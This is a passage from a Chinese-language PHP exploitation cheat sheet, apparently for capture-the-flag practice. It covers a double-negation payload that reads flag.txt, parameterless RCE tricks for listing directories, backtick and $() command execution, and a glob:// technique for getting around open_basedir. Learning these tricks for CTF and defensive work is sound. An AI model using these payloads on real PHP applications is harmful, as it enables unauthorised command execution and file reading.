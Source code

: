 

**可以取反两次**

```php
<?=require~~flag.txt?>
<?=require~%d0%99%93%9e%98?> 
```



### 10、无参数RCE

#### get_defined_vars()

> 返回由所有已定义变量所组成的数组

#### session_id()

> 可以获取PHPSESSID的值

[无参数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/)

![在这里插入图片描述](https://s2.loli.net/2022/12/27/tbqwIA7fRl8mFnU.png)

读取目录：

```php
print_r(scandir(current(localeconv())));
print_r(scandir(pos(localeconv())));
print_r(scandir(dirname(__FILE__)));
```



### 11、内联执行

```php
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
```

![在这里插入图片描述](https://s2.loli.net/2022/12/27/RY4JmCADscxKjGi.png)

将``或$()内命令的输出作为输入执行



### 12、open_basedir绕过

**glob伪协议：**

```php
<?php
// 循环 ext/spl/examples/ 目录里所有 *.php 文件
// 并打印文件名和文件尺寸
$it = new DirectoryIterator("glob://ext/spl/examples/*.php");
foreach($it as $f) {
    printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
}
?>
```
